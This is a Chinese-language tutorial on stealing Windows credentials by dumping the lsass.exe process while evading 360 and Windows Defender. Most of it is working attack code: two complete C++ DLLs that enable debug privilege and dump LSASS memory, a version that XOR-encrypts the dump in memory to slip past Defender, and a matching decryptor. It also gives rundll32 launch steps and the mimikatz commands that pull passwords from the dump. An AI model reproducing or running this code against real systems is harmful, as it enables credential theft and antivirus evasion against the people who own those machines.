




# 前言

通常来说，即使我们成功实现了mimikatz的静态免杀，其抓取hash的行为仍可能会被防病毒软件检测到虽然你可以通过修改mimikatz的源码来实现行为上的免杀，但这需要花费大量的时间。我建议针对具体功能的代码来实现免杀，例如，mimikatz的dump hash功能主要依赖于Windows API的Minidump函数。


# 绕过360核晶

## 实现思路

**1.设置权限**

为了能够访问 lsass.exe 进程的内存，代码首先检查并提升程序的权限。这是通过 `CheckPrivilege()` 和 `EnableDebugPrivilege()` 函数完成的

**2.获取lsass进程的pid**

 代码使用 `GetLsassPID()` 函数获取 lsass.exe 进程的进程ID (PID)

**3.创建内存转储文件**

代码最主要的部分是 `Dump()` 函数，这个函数使用了 `MiniDumpW` 函数来创建 lsass.exe 进程的内存转储文件。

`MiniDump`函数是`comsvcs.dll`库中的一个函数，通常被用于生成进程的堆栈跟踪信息，在Windows中，`MiniDump`可以生成一个包含线程和句柄信息以及可选内存信息的dump文件，函数的使用需传入一个包含进程ID和转储文件路径的字符串参数


## 完整代码

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#pragma comment( lib, "Dbghelp.lib" )
#define _CRT_SECURE_NO_WARNINGS


// comsvcs.dll 中 MiniDumpW 函数的类型定义
typedef HRESULT(WINAPI* _MiniDumpW)(DWORD , DWORD , PWCHAR );


// 检查是否具有管理员权限
BOOL CheckPrivilege() 
{
    BOOL state;
    SID_IDENTIFIER_AUTHORITY NtAuthority = SECURITY_NT_AUTHORITY;
    PSID AdministratorsGroup;

    state = AllocateAndInitializeSid(
        &NtAuthority,
        2,
        SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS,
        SECURITY_LOCAL_SYSTEM_RID, DOMAIN_GROUP_RID_ADMINS, 0, 0, 0, 0,
        &AdministratorsGroup);

    if (state)
    {
        if (!CheckTokenMembership(NULL, AdministratorsGroup, &state))
        {
            state = FALSE;
        }
        FreeSid(AdministratorsGroup);
    }

    return state;
}

// 启用调试权限
BOOL EnableDebugPrivilege()
{
    HANDLE hThis = GetCurrentProcess();
    HANDLE hToken;
    OpenProcessToken(hThis, TOKEN_ADJUST_PRIVILEGES, &hToken);
    LUID luid;
    LookupPrivilegeValue(0, TEXT("seDebugPrivilege"), &luid);
    TOKEN_PRIVILEGES priv;
    priv.PrivilegeCount = 1;
    priv.Privileges[0].Luid = luid;
    priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    BOOL isEnabiled = AdjustTokenPrivileges(hToken, false, &priv, sizeof(priv), 0, 0);
    if (isEnabiled) {
        CloseHandle(hToken);
        CloseHandle(hThis);
        return TRUE;
    }
    return FALSE;
}

// 获取 lsass 进程的 PID
DWORD GetLsassPID() 
{
    DWORD lsassPID = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";

    if (Process32First(snapshot, &processEntry)) 
    {
        while (_wcsicmp(processName, L"lsass.exe") != 0) 
        {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
    }
    return lsassPID;
}

// 检查指定文件是否存在
BOOL CheckFileExists(PWCHAR file) 
{
    WIN32_FIND_DATA FindFileData;
    HANDLE hFind = FindFirstFileEx(file, FindExInfoStandard, &FindFileData, FindExSearchNameMatch, NULL, 0);
    if (hFind == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }
    return TRUE;
}

int Dump() 
{
    WCHAR commandLine[MAX_PATH]; //命令行参数
    WCHAR DumpFile[] = L"C:\\Windows\\Temp\\test.log"; //转储文件的路径
    _MiniDumpW MiniDumpW; //MiniDumpW 函数的指针
    DWORD lsassPID = 0;  //存放lsass进程的PID

    // 检查是否具有管理员权限
    if (!CheckPrivilege()) 
	{
        return -1;
    }
    
    // 启用调试权限
    if (!EnableDebugPrivilege()) 
	{
        return -1;
    }

    // 获取lsass进程的PID
    lsassPID = GetLsassPID();

    // 获取 MiniDumpW 函数的地址
    MiniDumpW = (_MiniDumpW)GetProcAddress(LoadLibrary(L"comsvcs.dll"), "MiniDumpW");
    
    // 准备MiniDumpWh函数的参数,full是传递给MiniDumpW函数的参数之一，表示创建一个完整的内存转储
    swprintf(commandLine, 512, L"%d %s full", lsassPID, DumpFile);

    // 调用 MiniDumpW 函数创建内存转储文件
    MiniDumpW(0, 0, commandLine);
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, 
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Dump();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```


## 运行测试

将生成的dll文件配合rundll.exe执行：`rundll32 DumpHash.dll dllmain`（其实我更偏向使用白+黑来执行dll文件）

在此过程中360核晶并没有拦截，执行完毕后会在`Windows/temp`目录生成`test.log`（此文件就是lsass进程的dump文件）

> 在Windows系统中，`rundll32.exe`是一个重要的系统工具，用于加载和执行动态链接库(DLL)中的函数



​	

将test.log拖到本机使用mimikatz执行如下命令导出目标主机的密码：

- `sekurlsa::minidump test.log`：mimikatz将只从指定的内存转储文件test.log中读取数据，而不再直接从LSASS进程中读取数据
- `sekurlsa::logonpasswords full`：从LSASS进程中提取登录密码的，`full`参数表示将尽可能多地显示关于登录会话和密码的信息

	


# 绕过WD

## 实现思路

上述这种方法无法绕过WindowsDefender，因为defender对生成的dump文件检验比较严格，只要发现你这个dump文件是lsass进程的，立马就会查杀，当然也有方法去绕过，只需对dump的文件进行加密。

当然对dump文件加密也是有前提的，需要在dump文件没有写入磁盘前对其里面的数据加密，这样才能绕过Defender，代码的实现重点关注两个函数，分别是`MiniDumpWriteDump`和它的回调函数




### MiniDumpWriteDump

`MiniDumpWriteDump` 是一个 Windows API 函数，此函数在`Dbghelp.dll` 库中定义，可以创建一个指定进程的内存转储文件（通常称为 "minidump" 文件）

以下是 `MiniDumpWriteDump` 函数的原型：

```cpp
cppCopy codeBOOL MiniDumpWriteDump(
  HANDLE hProcess, //一个打开的句柄，指向需要创建内存转储文件的进程
  DWORD ProcessId, //需要创建内存转储文件的进程的进程ID
  HANDLE hFile, //一个打开的句柄，指向用于写入内存转储文件的文件,可置NULL
  MINIDUMP_TYPE DumpType, //一个 MINIDUMP_TYPE 枚举值，指定内存转储文件的类型
  PMINIDUMP_EXCEPTION_INFORMATION ExceptionParam,  //置NULL
  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam, //置NULL
  PMINIDUMP_CALLBACK_INFORMATION CallbackParam  //一个指向 MINIDUMP_CALLBACK_INFORMATION 结构的指针，这个结构包含了一个回调函数和一个用户定义的参数。在内存转储过程中，这个回调函数会被多次调用，可以用于控制转储的过程或修改转储的内容。如果不需要使用回调函数，这个参数可以为 NULL
);
```


### 回调函数加密dump文件

MiniDumpWriteDump函数有一个回调函数, 可以通过`callbackInput->CallbackType`来判断何时回调执行我们自定义的代码段

首先在`loStartCallback`中将status成员设置为`S_FALSE`, 其目的是在开始写入数据时，不会将数据写入磁盘；然后在`IoWriteAllCallback`中将status成员设置为`S_OK`, 其目的是在每次写入数据时，将其写入到申请的堆内存中, 这样方便后续的xor加密操作

这种数据的加密是在内存中执行的，而不是在文件中执行，因此能够绕过Defender的检测

```cpp
BOOL CALLBACK minidumpCallback(
    __in     PVOID callbackParam,
    __in     const PMINIDUMP_CALLBACK_INPUT callbackInput,
    __inout  PMINIDUMP_CALLBACK_OUTPUT callbackOutput
)
{
    LPVOID destination = 0, source = 0;
    DWORD bufferSize = 0;

    switch (callbackInput->CallbackType)
    {
    case IoStartCallback:
        // 在开始写入数据时，设置 Status 为 S_FALSE，这可能会取消默认的写入操作
        callbackOutput->Status = S_FALSE;
        break;

    case IoWriteAllCallback:
        // 在每次写入数据时，将数据保存到预先分配的内存区域

        // 设置 Status 为 S_OK，这可能会取消默认的写入操作
        callbackOutput->Status = S_OK;

        // source 指向一块刚刚从 lsass 进程读取的内存数据，这块数据将会被写入到内存转储文件中
        source = callbackInput->Io.Buffer;

        // destination 是我们想要保存这部分数据的位置，计算方法是 dumpBuffer 的开始地址加上这块数据在内存转储文件中的偏移量
        destination = (LPVOID)((DWORD_PTR)buffer + (DWORD_PTR)callbackInput->Io.Offset);

        // bufferSize 是刚刚读取的内存数据的大小
        bufferSize = callbackInput->Io.BufferBytes;

        // 将内存数据从 source 复制到 destination
        RtlCopyMemory(destination, source, bufferSize);

        break;

    case IoFinishCallback:
        // 在完成写入数据时，设置 Status 为 S_OK
        callbackOutput->Status = S_OK;
        break;

    default:
        return true;
    }
    return TRUE;
}
```


## 完整代码

以下是绕过WD的dumphash代码：

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#pragma comment( lib, "Dbghelp.lib" )
#include <fstream>
#define _CRT_SECURE_NO_WARNINGS

// MiniDumpWriteDump 函数的类型定义
typedef BOOL(WINAPI* _MiniDumpWriteDump)(
    HANDLE hProcess, DWORD ProcessId,
    HANDLE hFile, MINIDUMP_TYPE DumpType,
    PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,
    PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
    PMINIDUMP_CALLBACK_INFORMATION CallbackParam);
_MiniDumpWriteDump MMiniDumpWriteDump = (_MiniDumpWriteDump)GetProcAddress(
// 加载 Dbghelp.dll 并获取 MiniDumpWriteDump 函数的地址    
LoadLibraryA("Dbghelp.dll"), "MiniDumpWriteDump");

// 为内存转储分配一个 75MB 的内存区域
LPVOID buffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 * 1024 * 75);
DWORD bytesRead = 0;
DWORD bytesWritten = 0;


// 检查是否具有管理员权限
BOOL CheckPrivilege() 
{
    BOOL state;
    SID_IDENTIFIER_AUTHORITY NtAuthority = SECURITY_NT_AUTHORITY;
    PSID AdministratorsGroup;

    state = AllocateAndInitializeSid(
        &NtAuthority,
        2,
        SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS,
        SECURITY_LOCAL_SYSTEM_RID, DOMAIN_GROUP_RID_ADMINS, 0, 0, 0, 0,
        &AdministratorsGroup);

    if (state)
    {
        if (!CheckTokenMembership(NULL, AdministratorsGroup, &state))
        {
            state = FALSE;
        }
        FreeSid(AdministratorsGroup);
    }

    return state;
}

// 启用调试权限
BOOL EnableDebugPrivilege()
{
    HANDLE hThis = GetCurrentProcess();
    HANDLE hToken;
    OpenProcessToken(hThis, TOKEN_ADJUST_PRIVILEGES, &hToken);
    LUID luid;
    LookupPrivilegeValue(0, TEXT("seDebugPrivilege"), &luid);
    TOKEN_PRIVILEGES priv;
    priv.PrivilegeCount = 1;
    priv.Privileges[0].Luid = luid;
    priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    BOOL isEnabiled = AdjustTokenPrivileges(hToken, false, &priv, sizeof(priv), 0, 0);
    if (isEnabiled) {
        CloseHandle(hToken);
        CloseHandle(hThis);
        return TRUE;
    }
    return FALSE;
}

// 获取 lsass 进程的 PID
DWORD GetLsassPID() 
{
    DWORD lsassPID = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";

    if (Process32First(snapshot, &processEntry)) 
    {
        while (_wcsicmp(processName, L"lsass.exe") != 0) 
        {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
    }
    return lsassPID;
}


BOOL CALLBACK minidumpCallback(
    __in     PVOID callbackParam,
    __in     const PMINIDUMP_CALLBACK_INPUT callbackInput,
    __inout  PMINIDUMP_CALLBACK_OUTPUT callbackOutput
)
{   
    // 定义目标和源的内存地址以及缓冲区大小
    LPVOID destination = 0, source = 0;
    DWORD bufferSize = 0;

    // 根据回调类型进行不同的处理
    switch (callbackInput->CallbackType)
    {
        
    case IoStartCallback:
        
        // 在内存转储开始时，将状态设置为 S_FALSE
        // 即取消默认的写入操作，数据将不会写入文件中
        callbackOutput->Status = S_FALSE;
        break;

        
    case IoWriteAllCallback:
        // 在每次写入数据时，将状态设置为S_OK
        // 即通过自定义的方式来处理数据
        callbackOutput->Status = S_OK;

        // 保存刚刚从 lsass 进程读取的内存数据的地址
        source = callbackInput->Io.Buffer;

        // 计算数据应存储的位置，该位置是预先分配的缓冲区的开始地址加上该数据在内存转储文件中的偏移量
        destination = (LPVOID)((DWORD_PTR)buffer + (DWORD_PTR)callbackInput->Io.Offset);

        // 保存刚刚读取的内存数据的大小
        bufferSize = callbackInput->Io.BufferBytes;
        bytesRead += bufferSize;

        // 将数据从源地址复制到目标地址
        RtlCopyMemory(destination, source, bufferSize);

        break;

    case IoFinishCallback:
        // 当内存转储完成时，将状态设置为 S_OK
        callbackOutput->Status = S_OK;
        break;

    default:
        return true;
    }
    return TRUE;
}

// Xor加密函数
char* Xorcrypt(char* content, DWORD length, char* secretKey)
{
    for (UINT i = 0; i < length; i++)
    {
        content[i] ^= secretKey[i % sizeof(secretKey)];
    }

    return content;
}


int Dump() 
{   

    DWORD lsassPID = 0;  //存放lsass进程的PID
    HANDLE lHandle = NULL;

    // 检查是否具有管理员权限
    if (!CheckPrivilege()) 
	{
        return -1;
    }
    
    // 启用调试权限
    if (!EnableDebugPrivilege()) 
	{
        return -1;
    }

    // 获取lsass进程的PID
    lsassPID = GetLsassPID();
    
    // 打开 lsass.exe 进程，并获取进程句柄
    lHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);

    //设置回调函数的参数，这里的回调函数是minidumpCallback
    MINIDUMP_CALLBACK_INFORMATION callbackInfo;
    ZeroMemory(&callbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
    callbackInfo.CallbackRoutine = &minidumpCallback;
    callbackInfo.CallbackParam = NULL;
    
    //调用MiniDumpWriteDump函数获取内存转储
    BOOL isD = MMiniDumpWriteDump(lHandle, lsassPID, NULL, MiniDumpWithFullMemory, NULL, NULL, &callbackInfo);
    if (isD)
    {   
        // 对存放在堆内存中的数据进行xor加密
        long int size = bytesRead;
        char* securitySth = new char[size];
        char* key = (char*)"thisisgood";
        memcpy(securitySth, buffer, bytesRead);
        securitySth = Xorcrypt(securitySth, bytesRead, key);

        // 创建内存存储文件
        HANDLE outFile = CreateFile(L"C:\\Windows\\Temp\\test.log", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

        // 将xor加密后的数据写入存储文件中
        if (WriteFile(outFile, securitySth, bytesRead, &bytesWritten, NULL))
        {   

            //printf("\n[+] to C:\\Windows\\Temp\\test.log\n");
        }

        CloseHandle(outFile);
    }

    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, 
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Dump();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```


以下是使用xor解密dump文件的代码：

```cpp
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
    char fBuffer[1];  // 文件缓冲区
    int index = 0;  // 索引，用于按循环方式获取密钥
    char* key = (char*)"thisisgood";  // 密钥
    int keylen = sizeof(key);  // 获取密钥长度

    // 检查参数数量是否正确
    if (argc != 3) {
        printf("Usage: %s <source> <destination>\n", argv[0]);
        return 1;
    }

    // 以二进制读取模式打开源文件
    FILE* fSource = fopen(argv[1], "rb");
    if (fSource == NULL) {
        perror("Error opening source file");
        return 1;
    }

    // 以二进制写入模式打开目标文件
    FILE* fDest = fopen(argv[2], "wb");
    if (fDest == NULL) {
        perror("Error opening destination file");
        return 1;
    }

    // 循环读取源文件的每个字节，执行XOR操作并写入目标文件
    while (fread(fBuffer, 1, 1, fSource) == 1) {
        fBuffer[0] ^= key[index % keylen];  // 对读取的字节执行XOR操作
        fwrite(fBuffer, 1, 1, fDest);  // 将结果写入目标文件
        index++;  // 更新索引
    }

    // 关闭文件
    fclose(fSource);
    fclose(fDest);

    return 0;  // 
}
```


## 运行测试

运行方法和之前的差不多，只是多了个解密的步骤，需将dump后的文件进行xor解密后，然后再放到mimikatz读取密码

```
.\Xor解密文件.exe .\test.log 1.bin
```



​	

# 参考文章

- https://tttang.com/archive/1810/#toc_silentprocessexitdump
- https://xz.aliyun.com/t/11199#toc-5

​	

